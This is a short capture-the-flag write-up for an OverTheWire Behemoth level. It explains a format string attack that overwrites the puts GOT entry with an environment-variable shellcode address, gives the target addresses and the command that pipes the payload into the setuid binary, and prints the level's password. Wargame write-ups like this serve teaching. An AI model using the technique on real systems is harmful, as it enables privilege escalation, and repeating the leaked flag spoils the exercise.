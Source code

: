 # behemoth level4 Solution


first i created `profile.rr2` file and put the follow content in it:
```
program=/behemoth/behemoth3
stdin=input
```

then, i inserted the payload into the input file:
```
python3 payload.py > input
```

and then, when i want to debug with r2 and the given input, i can run this line: 
```
r2 -e dbg.profile=profile.rr2
```
first, we can see that the binary doesn't use ASLR, and also the relro is turned off.
![alt text](./images/level4_1.png)

so, let's try to use the format string attack to override the address of the puts function to our shellcode address.

find the address to override:
![alt text](./images/level4_2.png)
![alt text](./images/level4_3.png)
so, the address is: `0x0804b218`
the address we want to insert is: `0xffffd53f` (same as last level, put shellcode on env, and find its address)

after building the payload, all left is to run this:
```
(python3 payload.py;cat) | /behemoth/behemoth3
```

and then
```
cat /etc/behemoth_pass/behemoth4
hpjUdlG723
```

**Flag:** ***`hpjUdlG723`*** 
